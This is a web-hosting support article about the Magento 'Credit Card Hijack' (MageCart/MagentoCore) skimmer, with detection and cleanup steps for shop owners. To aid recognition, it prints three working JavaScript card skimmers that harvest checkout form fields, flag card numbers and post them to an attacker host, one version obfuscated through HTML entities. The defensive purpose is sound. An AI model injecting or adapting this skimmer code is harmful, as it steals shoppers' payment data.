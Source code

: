 ```yaml
---
myst:
  html_meta:
    description: The hack Creditcard Hijack is malicious code in Magento that allows
      hackers to intercept financial data. This article explains more and tells you
      how to fix it.
redirect_from:
  - /en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/
---
```


<!-- source: https://support.hypernode.com/en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/ -->

# How to Fix Malicious Javascript Credit Card Hijack

The hack *Credit card Hijack* is malicious code in Magento that allows hackers to intercept financial data, such as credit card credentials. This article further explains what this security breach means, what the consequences are and how you can fix it.

*We recommend checking your site with*[*Magereport.com*](http://magereport.com/)*for other vulnerabilities.*

## What Is Credit Card Hijack?

The Credit Card Hijack is the collective name of multiple credit card skimmers which may be injected in Magento and allows hackers to capture unencrypted credit card details (like credentials). Known names are the **MagentoCore** skimmer and the **MageCart** skimmer.

This check indicates whether your shop is injected with malware. However, it is not possible for MageReport to check which malware infected your shop.

With this relatively new way of hacking, malware is added in the browser of your websites’ visitors. This malware intercepts the credit card credentials the moment your customer types them in their browser. At this point the credentials aren’t encrypted yet.

In 2015 we analyzed the malware and found out that a staggering amount of 3500 Magento shops are part of a zombie network that interfere credit card credentials, and send this data to so called command&control servers. (Command&control servers are a network of servers where hackers collect this sort of data). This was the first time we encountered an automated credit card fraud on this scale. It’s obvious hackers have massively improved in becoming more professional in automating large-scale credit card fraud.

[Read more about Credit card Hijack](https://www.byte.nl/blog/widespread-credit-card-hijacking-discovered)

We suspect this leak has been made possible due to unpatched Magento shops. So if you haven’t completely patched your Magento shop yet, make sure you do. Use Magereport.com to check if there are any patches not yet installed.

## What Are the Consequences?

Credit Card Hijack allows hackers to intercept your customers financial data. With this information they can commit global credit card fraud, causing a lot of financial damage.

The fraud can be traced back to May 12th 2015, which implies the malpractice went unnoticed for months and is still active.

## How Do I Fix It?

*Fixing this breach is not an easy task. If you don’t have a lot of knowledge of Magento’s security, we recommend you hire an Magento developer or specialist experienced in Magento security.*

### Apply All Available Magento Patches

Scan your shop with [Magereport.com](http://magereport.com/) to find out which patches have been and have not been installed yet. When a patch isn’t installed, install it with the instructions given.

### Review and Remove

Review all admin users in your system via Magento’s backend (navigate to system>Permissions>Roles). Remove any accounts which you are not actively using and set strong passwords for all admin users you do use.

### Remove Unknown Scripts (PHP & Javascript)

Search your shop for scripts similar to the ones below and remove them. Searching and removing can be done via Magento’s backend. Once logged in to your backend (screenshots below):

1. Navigate to ‘System’ -> Configuration
   ![](_res/_EC5-TnORl1F5LROwDSHdbtXWyqhY6zx7A.png)
1. Go to ‘Design’ under ‘General’
   ![](_res/OYuuBvfAcJuTp9mnQ5m0uHdmap9USRS9nw.png)
1. Scroll down and open HTML Head to check ‘Miscellaneous Scripts’
   ![](_res/RSWx-oakxkntqQ5Mwws3vH6n_vSonTqKXg.png)
1. Scroll down and open Footer to check Miscellaneous HTML
   ![](_res/RUyelZfnnB8vcjKWctD9LYMDicwjrgdaQg.png)

**If Miscellaneous scripts and Miscellaneous HTML are empty, you’re most likely safe. If not, check if they contain the scripts below.**

The script below is an example of a minified version of the [scraper Javascript](https://blog.sucuri.net/2015/06/magento-platform-targeted-by-credit-card-scrapers.html).

```javascript
function jj(e){var t="; "+document.cookie,o=t.split("; "+e+"=");return 2==o.length?o.pop().split(";").shift():void 0}jj("SESSIID")||(document.cookie="SESSIID="+(new Date).getTime()),jQuery(function(e){e("button").on("click",function(){var t="",o="post",n=window.location;if(new RegExp("onepage|checkout").test(n)){for(var c=document.querySelectorAll("input, select, textarea, checkbox"),i=0;i&lt;c.length;i++)if(c[i].value.length&gt;0){var a=c[i].name;""==a&amp;&amp;(a=i),t+=a+"="+c[i].value+"&amp;"}if(t){var l=new RegExp("[0-9]{13,16}"),u=new XMLHttpRequest;u.open(o,e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(),!0),u.setRequestHeader("Content-type","application/x-www-form-urlencoded"),u.send(t+"&amp;asd="+(l.test(t.replace(/s/g,""))?1:0)+"&amp;utmp="+n+"&amp;cookie="+jj("SESSIID")),console.clear()}}})});
```

The script below is an example of Credit Card Hijack’s malicious code. It installs the functions ‘send’ and ‘clk’, which allows hackers to collect the names and content of every common form input element, when your customer clicks a button or submits a form.

```javascript
var snd =null;
window.onload = function () {
 if((new RegExp('onepage')).test(window.location)) {
 send();

 }
};

function clk() {
 var inp=document.querySelectorAll("input, select, textarea, checkbox");
 for (var i=0;i&lt;inp.length;i++){
 if(inp[i].value.length&gt;0) {
 var nme=inp[i].name;
 if(nme=='') { nme=i; }
 snd+=inp[i].name+'='+inp[i].value+'&amp;';
 }
 }

}

function send() {
var btn=document.querySelectorAll("a[href*='javascript:void(0)'],button, input, submit, .btn, .button");
 for (var i=0;i&lt;btn.length;i++){
 var b=btn[i];
 if(b.type!='text' &amp;&amp; b.type!='select' &amp;&amp; b.type!='checkbox' &amp;&amp; b.type!='password' &amp;&amp; b.type!='radio') {
 if(b.addEventListener) {
 b.addEventListener("click", clk, false);
 }else {
 b.attachEvent('onclick', clk);
 }
 }
 }

 var frm=document.querySelectorAll("form");
 for (var i=0;i&lt;frm.length;i++){
 if(frm[i].addEventListener) {
 frm[i].addEventListener("submit", clk, false);
 }else {
 frm[i].attachEvent('onsubmit', clk);
 }
 }

 if(snd!=null) {
 console.clear();
 var cc = new RegExp("[0-9]{13,16}");
 var asd="0";
 if(cc.test(snd)){
 asd="1" ;
 }
var http = new XMLHttpRequest();
http.open("POST","https://bad.guy/jquery.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("data="+snd+"&amp;asd="+asd+"&amp;id_id=ano.nym");
console.clear();
 }
 snd=null;
 setTimeout('send()', 150);
}
```

The script below was found during the research done by Hypernode. It covers the same functionality as the script above, but is harder to spot because it’s included in a minimised form. In this script Jquery is used to add unnamed click event-handler to every button on the page. If someone clicks the button, the function is triggered and allowed to collect al input data. It checks for credit card numbers and this information is sent off to their data collection server.

```javascript
 function jj(e) {
 var t = "; " + document.cookie
 , o = t.split("; " + e + "=");
 return 2 == o.length ? o.pop().split(";").shift() : void 0
 }
 jj("SESSIID") || (document.cookie = "SESSIID=" + (new Date).getTime())
 , jQuery(function (e) {
 e("button").on("click", function () {
 var t = ""
 , o = "post"
 , n = window.location;
 if (new RegExp("onepage|checkout").test(n)) {
 for (var c = document.querySelectorAll("input, select, textarea, checkbox"), i = 0; i &lt; c.length; i++)
 if (c[i].value.length &gt; 0) {
 var a = c[i].name;
 "" == a &amp;&amp; (a = i)
 , t += a + "=" + c[i].value + "&amp;"
 }
 if (t) {
 var l = new RegExp("[0-9]{13,16}")
 , u = new XMLHttpRequest;
 u.open(o, e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(), !0)
 , u.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
 , u.send(t + "&amp;asd=" + (l.test(t.replace(/s/g, "")) ? 1 : 0) + "&amp;utmp=" + n + "&amp;cookie=" + jj("SESSIID"))
 , console.clear()
 }
 }
 })
 });
```

## Recover Your Shop

Since Credit Card Hijack is an ongoing credit card fraud dating from May 2015, it’s difficult to pinpoint how exactly the hackers got in. We assume it’s due to a combination of various know Magento leaks. It’s likely hackers used these security vulnerablities to set up this credit card fraud.

We recommend you ‘clean’ your shop following the steps written in the article [Recover a Hacked Magento Shop](../../best-practices/security/how-to-recover-a-hacked-magento-shop.md) after installing all Magento patches, deleting inactive Magento admins and removing malicious code.

## Need Help?

Magento is no easy open source CMS. Although we’re very skilled in hosting Magento shops, making them fast and keeping conversion high, we’re no Magento developers. Luckily, we know a lot of agencies that do know a lot about how Magento works. If you need help, don’t hesitate to [contact one of these agencies](https://www.magereport.com/page/support).
